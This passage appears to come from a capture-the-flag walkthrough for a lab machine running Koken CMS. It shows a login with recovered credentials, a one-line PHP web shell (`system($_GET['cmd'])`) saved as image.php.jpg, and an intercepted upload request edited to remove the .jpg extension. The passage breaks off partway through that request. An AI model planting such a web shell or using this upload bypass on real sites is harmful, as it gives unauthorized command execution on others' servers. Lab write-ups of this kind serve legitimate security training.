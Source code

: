 <br />
Login using the daisa email and babygirl from the email body.  We had the "secret" all along.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/librarylanding.png" title="Check the Landing Page when we login" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Create image.php.jpg file that is indicated in the exploit.

{% raw %}
```php
<?php system($_GET['cmd']);?>
```
{% endraw %}

<br />
Click on Import content in the lower right-hand corner.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/import.png" title="Click Import Content" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Choose the file that was just created.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/fileselect.png" title="Select File" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Ensure that you intercept the request.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/intercept.png" title="Ensure Intercept is On" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Upload the file.  Check that we caught the request.  Update the request to remove the .jpg extension from two different places in the request.

{% raw %}
```sh
POST /api.php?/content HTTP/1.1
Host: 10.0.0.15:8000
Content-Length: 928
x-koken-auth: cookie
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydjT9BT6fKT3BUBDZ
Accept: */*
Origin: http://10.0.0.15:8000
Referer: http://10.0.0.15:8000/admin/
Accept-Encoding: gzip, deflate, br
```